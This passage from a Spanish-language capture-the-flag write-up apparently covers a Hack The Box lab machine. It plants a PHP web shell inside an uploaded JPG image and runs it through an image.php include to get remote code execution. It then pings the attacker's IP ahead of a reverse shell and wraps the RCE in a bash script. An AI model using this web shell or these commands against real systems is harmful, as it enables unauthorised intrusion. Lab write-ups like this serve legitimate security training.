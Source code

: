 ```bash
> curl -s -X GET "http://10.10.11.135/images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg" --data-urlencode "cmd=id"
<?php system($_REQUEST['cmd']); ?>
```
Llmandolo con extensión jpg no se debería interpretar, pero como lo llamaré desde otro php -image.php- igual si funciona.
```bash
> curl -s -X GET "http://10.10.11.135/image.php?img=images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg&cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

> curl -s -X GET -G "http://10.10.11.135/image.php?img=images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg" --data-urlencode "cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# Realizado de dos maneras, curl es la ostia
```
Tenemos RCE. Probemos si hay conexión con nuestra máquina para poder luego lanzarnos una reverse shell. Me pongo en escucha desde mi consola:
```bash
> tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```
Desde otra consola realizo el ping:
```sh
> curl -s -X GET -G "http://10.10.11.135/image.php?img=images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg" --data-urlencode "cmd=ping -c 1 10.10.14.8"
PING 10.10.14.8 (10.10.14.8) 56(84) bytes of data.
From 10.10.11.135 icmp_seq=1 Destination Port Unreachable

--- 10.10.14.8 ping statistics ---
1 packets transmitted, 0 received, +1 errors, 100% packet loss, time 0ms
```
No hay conectividad. Voy a crearme un script como antes para agilizar el RCE -una remote shell-. Lo llamo rce2.sh:
```sh
#!/bin/bash

function ctrl_c(){
    echo -e "\n Saliendo..\n"
    exit 1
}

# Ctrl+C
trap ctrl_c INT

if [ $# -eq 0 ]; then

    >&2 echo -e "\n No has proporcionado argumento, por favor proporciona archivo a listar..\n"

    exit 1

fi

curl -s -X GET -G "http://10.10.11.135/image.php?img=images/uploads/155ebe85f13f2d92fad1856279bcdeee_pwn.jpg" --data-urlencode "cmd=$1"

```
Y ya podemos lanzar comandos más cómodamente.
```sh
> ./rce2.sh id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Probando por netcat parece que si recibo señal: